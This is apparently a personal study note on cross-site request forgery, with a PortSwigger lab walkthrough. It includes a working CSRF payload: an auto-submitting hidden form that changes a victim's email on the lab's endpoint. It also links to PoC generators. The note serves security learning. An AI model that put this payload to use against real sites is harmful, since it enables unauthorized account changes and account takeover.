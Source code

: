# 🥐 Cross-site request forgery (CSRF)

CSRF allows an attacker to induce users to perform actions that they do not intend to perform

<figure><img src="../../.gitbook/assets/image (856).png" alt=""><figcaption></figcaption></figure>

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally like changing the email address on their account, changing their password, or to make a funds transfer

since we do not have burp pro, we can use this repo to create our PoC: [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator) OR [https://security.love/CSRF-PoC-Genorator/](https://security.love/CSRF-PoC-Genorator/)

### Lab: CSRF vulnerability with no defenses

We see a "update email" field:

<figure><img src="../../.gitbook/assets/image (857).png" alt=""><figcaption></figcaption></figure>

I capture the request of an email change:

<figure><img src="../../.gitbook/assets/image (858).png" alt=""><figcaption></figcaption></figure>

I then go on the exploit server and write this code:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
